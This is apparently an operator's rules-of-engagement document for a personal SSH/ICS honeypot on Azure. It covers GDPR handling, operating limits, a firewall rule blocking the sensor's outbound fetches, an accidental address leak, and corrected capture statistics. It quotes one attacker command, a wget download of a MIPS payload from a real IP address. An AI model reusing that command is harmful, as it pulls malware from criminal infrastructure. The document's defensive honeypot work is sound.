


# Rules of engagement

What was checked before the machine was switched on, what it permits or encourages even, and
what are the limits of that permission. 

## The short version: passive reception ONLY

This project never initiates a connection of its own. It never scans, never replies to anything it has logged, never probes, and never runs what is sent to it. One exception existed and has been closed — see The outbound download problem below. The rule is now enforced at the firewall rather than trusted to the software: the cowrie user cannot open an outbound connection at all.

## The provider's terms

The governing document for security work on Azure resources is Microsoft's
**Cloud Penetration Testing Rules of Engagement**. Version as on
[24/09/2026], and the two screenshots are saved in this folder





**What it prohibits** is, in substance, anything that reaches past your own
resources: touching assets or data belonging to other Microsoft customers,
denial-of-service testing, using Azure infrastructure to attack third
parties, social engineering of Microsoft staff, and pushing a found
vulnerability beyond proof of concept. This project does none of those. It
makes no outbound connections from the decoys at all.

**What it explicitly encourages** includes port scanning and vulnerability
scanning of *your own* Azure virtual machines. That is useful here: Microsoft 
expects customers to generate security-relevant traffic against their own 
machines, so verifying my own decoy ports from my own PC is allowed.

## Personal data

Source IP addresses are personal data under the GDPR, which applies here —
the operator is in Germany, the machine is in Austria. The position taken:

| | |
|---|---|
| What is collected | Source IP, timestamp, port, and the credentials or commands the sender chose to send |
| Why it is lawful to hold | Legitimate interest in the security of my own system, limited to what that interest needs |
| Minimisation | No attempt is made to identify any individual behind any address. Addresses are geolocated to country only. Besides, a lot (most?) of these machines are themselves compromised|
| Published form | Country and aggregate counts only. No individual address appears in this repository or in the presentation |
| Retention | Raw logs live only on the machine and are destroyed with it at teardown. The database copy retains what is needed for the written analysis |
| Never collected | Nothing is solicited from senders. No content is retrieved from them, no connection is made back to them |


## Rules: TL;DR

1. **Receive only.** No scan, no probe, no reply, no retaliation, ever, to
   any address that appears in the logs.
2. **Execute nothing.** Both decoys emulate services; neither runs uploaded
   code. Anything uploaded stays on disk, quarantined, and is destroyed with
   the machine.
3. **Commit no malware.** Upload directories are excluded in `.gitignore`
   before the decoys even exist
4. **Nothing borrowed.** No university, employer, ReDI School or third-party
   network or account is involved. One machine, rented in my own name, paid
   from my own student credit.
5. **Real admin access is separated from the decoys.** Administrative SSH
   sits on a high port restricted to one address; port 22 belongs to the
   decoy and nothing else.
6. **A fixed end date.** The machine is destroyed on 12 December 2026. An
   exposed machine that outlives its purpose is a liability, not an asset.

## A correction, 25 September

This document originally implied the decoys make no outbound connections at
all. That was not accurate, and the inaccuracy was found while testing Conpot
before exposing it.

On startup, Conpot contacts an external service to discover the machine's own
public address — `Fetched <address> as external ip` in its log. It sends
nothing but the request, to a third-party address-echo service, and not to
anything this project observes. It is configurable and is being disabled
before Conpot goes live.

It is recorded here rather than quietly fixed because a published claim later
found to be wrong has to be corrected in public. The commitment that actually
matters is unchanged and is stated precisely: **nothing in this project now connects back to, scans, or responds to an address that appears in the logs. This was not true between 25 and 29 September 2026 — see The outbound download problem below.**

## The outbound download problem — found and closed, 29 September 2026

**What was wrong.** Cowrie does not fake `wget`, `curl` and `tftp`. When an
attacker types `wget http://45.32.215.222/iran.mips`, Cowrie really fetches that
file and stores it under its SHA-256. That is deliberate honeypot behaviour and
it is how malware samples are collected — but it means the sensor opened
outbound connections to attacker-controlled infrastructure, which is precisely
what the two statements above said it would never do.

**Scale.** Measured 29 September 2026, 12:50 UTC. Cowrie records three different
things under one event name, and only the first involves an outbound connection.

| | Events | Sessions | Distinct files |
|---|---|---|---|
| **Fetched over the network** (`url` present) | **81** | **33** | **33** |
| Failed fetch attempts | 72 | 15 | — |
| Pushed in over SCP (`file_upload`) | 79 | 14 | 24 |
| Shell redirection captured (no `url`) | 184 | 104 | 8 |

**Outbound connections attempted: 153, to 8 distinct hosts.** That is the number
this section is about. Everything below the first two rows is inbound and was
never a problem: the attacker supplied the bytes, the sensor received them,
nothing was executed. That is the rule working as written.

The last row is not file delivery at all. It is the writable-directory probe —
`>/var/.f` creates a file and Cowrie stores its content — which is why 184 events
yield only eight distinct files.

Distinct captured content is **65 hashes**: 33 fetched, 24 pushed, 8 redirection
artefacts. The directory holds about 106 files because redirection captures are
named `redir_<uuid>` rather than by hash, so it contains more files than there is
distinct content in it. "How many malware samples do you have" therefore has
three defensible answers, and the honest one for *fetched payloads* is **33**.

**Why it was not caught sooner.** The two statements above were written as a
design intention and never tested against the log. The behaviour surfaced by
accident: an earlier findings note claimed no payload was ever delivered, and
checking that claim turned up 74 MB of payloads. An untested claim in a
governance document is a claim about what somebody hoped, not about what the
machine does.

**The decision.** Downloads are turned off rather than documented as an accepted
exception. Sample collection is standard honeypot practice and keeping it would
have been defensible — it is the only way to answer "what do they actually
install". It was turned off because a sensor that reaches out to criminal
infrastructure is not what this document told its reader the project was, and
when the document and the machine disagree, the machine is what changes.

**How it is enforced.** Not in Cowrie's configuration. There is no clean switch
for this, and `download_limit_size = 0` means *no limit*, not *no downloads* —
a trap worth recording. It is enforced in the kernel, in
`/etc/ufw/before.rules`:

```
-A ufw-before-output -m owner --uid-owner 1001 -j REJECT --reject-with icmp-port-unreachable
```

uid 1001 is `cowrie`. The rule sits below ufw's existing rules accepting
loopback and `RELATED,ESTABLISHED`, so the decoy still replies to attackers on
connections *they* opened; only connections *it* starts are refused. Placement
matters: above those two rules, the same line would stop the honeypot answering
the door at all.

Tested both ways on 29 September, after `ufw reload`:

```
sudo -u cowrie curl http://example.com   ->  exit code 7, no connection
127.0.0.1:22                             ->  SSH-2.0-OpenSSH_9.2p1 ... (still answering)
systemctl is-active cowrie               ->  active
```

Enforcement at the packet filter rather than in configuration is deliberate. A
configuration setting is a statement of intent. A packet filter is a fact, it
survives a software upgrade that reintroduces the behaviour, and it covers
emulated commands nobody has thought of yet.

## We published the sensor's address ourselves

This document states that the machine's public address is not published. On
**29 September 2026** it was, by us, in commit `77071a7` — a comment in
`config/conpot.cfg` recording what Conpot's public-IP fetch had written to the
log:

```
; address from an external service, which put `Fetched <address> as
```

The address was in the line. It sat in a public repository for a few hours on
29 September 2026 before being removed the same day. It remains in the
repository's history.

### Why it matters

Not because an address is secret — the sensor is deliberately reachable from the
whole internet, and anyone scanning finds it. It matters because the line
**identifies that address as a honeypot**. A scanner that finds an open port
learns nothing about what is behind it; a reader who finds this repository learns
the machine is a decoy, and can avoid it, feed it, or discount whatever it
reports. Either way the data stops describing what it claims to describe, and
nothing in the logs would show that it had happened.

It is the same reasoning that keeps the host-key fingerprints out of these
documents. A fingerprint published alongside the words "Deception Grid honeypot"
is a permanent identifier, matchable by anyone scanning the address range without
ever connecting.

### How it was found

Not by noticing the commit. A privacy sweep over the working files caught the
address, it was scrubbed locally, and only a later check of what the *repository*
actually contained — current files and full history — showed it had already been
committed:

```
grep -rn '<address>' . --exclude-dir=.git
git log -p --all | grep -c '<address>'
```

The gap is worth naming: **checking your own working copy is not checking what
you published.** The two had diverged by one commit.

### What was decided, and what was rejected

**Scrub the file and record this note.** Done the same day.

**Rewriting history** — `git filter-repo` and a force push — was considered and
rejected. It would need push credentials on a machine that deliberately has none,
and a force push against a repository otherwise edited through the browser, to
remove something exposed for a few hours in a repository with no watchers. It also
would not undo publication: GitHub keeps unreferenced commits reachable by SHA,
and anything already indexed or forked is beyond reach. A mitigation that looks
complete and is not is worse than one that is honestly partial.

**Rotating the public address** would genuinely neutralise the disclosure, and was
rejected on experimental grounds. Four days of continuous collection against a
single address is the dataset; changing it mid-collection makes the before and
after incomparable, and the machine is scheduled for teardown in December 2026.
The cost to the result exceeds the benefit of retiring an address that was exposed
for hours.

### What changed as a result

The pre-publication check is no longer only over working files. Before anything is
committed:

```
grep -rn -e '<host address>' -e '<analyst address>' -e '<host key fingerprints>' . --exclude-dir=.git
git log -p --all | grep -c -e '<host address>' ...
git log --all --name-only --pretty=format: | sort -u \
  | grep -E 'exclude-ips|downloads/|\.sqlite|\.pem|id_ed25519'
```

The third command is the one that would have caught this earlier: it lists every
path the repository has **ever** held, rather than every path it holds now.

### The honest summary

Two rules in this document have now been broken by the project itself: the sensor
made outbound connections for four days, and the sensor's address was published
for a few hours. Both were found by checking rather than by noticing, both are
recorded here with their windows, and both were fixed at a layer that does not
depend on anyone remembering — a packet filter in the first case, a
history-inclusive pre-commit check in the second.

A rules-of-engagement document that has never been violated is usually one nobody
has audited.
**What is kept and what is lost.** The 65 distinct files already collected stay on the
sensor. They are never executed, never committed (`.gitignore` covers
`downloads/`), and never copied to the analyst's laptop (the backup script
excludes that directory by name). From now on Cowrie records
`cowrie.session.file_download.failed` together with the URL it was told to
fetch, so the intelligence that matters — *which* infrastructure the bots serve
payloads from — continues to be captured. Only the binaries stop arriving.

The cost is real and should be stated rather than glossed: "what do they
install" can be answered for 25 to 29 September and not after. That is the
price of the rule, and the rule is worth the price.

## If something goes wrong...

The realistic failure is a decoy being used as a stepping stone. The
detection is outbound traffic where there should be none, and the response is
to abandon ship: destroy the resource group immediately and write
up what happened afterwards. 

### The figures here were wrong first time, and the reason matters

The first version of this section reported 259 downloads, 331 outbound
connections and 104 samples. Every one was an event count taken without checking
what the events were.

Cowrie logs three things under `cowrie.session.file_download`: a file it fetched
over the network, a file an attacker pushed over SCP, and the output of a shell
redirection. Only the first involves an outbound connection, and the
discriminator is the presence of a `url` field. Of 259 such events, **81** had
one.

The same error produced "131 sessions fetched a payload", which was
`COUNT(DISTINCT session)` across all three kinds. The real figure is 33.

Then the correction itself repeated the mistake. A draft of this very edit
claimed "more sessions pushed a file than fetched one, 112 against 33" — again
merging SCP pushes with shell redirections. Separated properly it is the
opposite: **fetching was more than twice as common as pushing, 33 sessions
against 14.**

This was the fifth figure corrected in one day, and every one had the same shape:
**an aggregate was reported before anyone asked what the rows were.** Distinct
sources were read off one log file of five. Event counts were labelled
"arrivals". A credential-exclusion rule matched nothing, and then matched real
passwords. A proxy attempt was one source and turned out to be three. And a
download count conflated fetching with receiving, twice.

The rule that comes out of it, and the one worth carrying into the next project:
**before quoting a count, look at five of the rows it counts.** Every one of
these would have been caught in under a minute by reading the raw events instead
of the total. `analysis/ingest.py` now prints the rows behind its own exclusions
for exactly this reason, and that is how two of the five were found.

A related trap, recorded because it cost an hour. A check added to
`decoy-status` counted files in `var/lib/cowrie/downloads/` against a baseline,
to detect the outbound block failing, and raised a false alarm within the hour.
That directory is not "downloads": attacker-pushed files and redirection captures
land there too and keep landing whether or not outbound is blocked, so the check
was measuring attacker activity rather than our firewall. It now counts
url-bearing fetch events after the cutoff, which is the thing actually being
watched, and that count has been zero since the block went in.
